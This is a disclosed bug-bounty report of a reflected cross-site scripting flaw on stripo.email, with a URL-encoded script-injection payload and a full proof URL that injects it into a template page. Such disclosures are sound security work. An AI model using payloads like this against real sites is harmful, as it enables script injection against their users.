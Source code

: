 # stripo.email reflected xss

## Report Details
- **Report ID**: 714521
- **URL**: https://hackerone.com/reports/714521
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-10-15T13:37:08.301Z
- **Disclosed**: 2019-12-26T13:31:04.830Z

## Reporter
- **Username**: trazer
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: stripo

## Vulnerability Information
hello securitty team tested windows 10 and firefox 69.0.3 (64 bit)

test url: <https://stripo.email//templates/merry-christmas-email-template-winter-inspiration-gifts-flowers-industry >

payload: %3E%22%27%3E%3Cscript%3Ealert%281578%29%3C%2Fscript%3E

Proof Url : 
```
https://stripo.email//templates/merry-christmas-email-template-winter-inspiration-gifts-flowers-industry%3E%22%27%3E%3Cscript%3Ealert%281578%29%3C%2Fscript%3E
```
Proof Url open firefox 

{F608355}

## Impact

https://www.owasp.org/index.php?title=Reflected_XSS

## Attachments
- 2019-10-15_16-34-21.png
